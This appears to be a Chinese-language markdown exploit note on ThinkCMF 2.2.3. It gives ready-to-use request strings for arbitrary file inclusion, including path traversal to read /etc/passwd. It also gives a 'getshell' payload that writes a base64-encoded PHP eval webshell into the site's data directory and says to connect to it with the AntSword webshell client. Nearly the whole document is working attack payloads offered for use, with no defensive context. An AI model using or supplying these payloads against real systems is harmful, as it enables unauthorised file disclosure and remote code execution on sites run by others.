




### thinkcmf

```
版本信息：2.2.3
```

#### 任意文件包含

包含默认文件

```
?a=display&templateFile=README.md
```



包含系统敏感文件

```
?a=display&templateFile=../../../../..//etc/passwd
```




#### getshell

```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('data/test.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4='))</php>
```



文件写入到data目录下，使用蚁剑连接




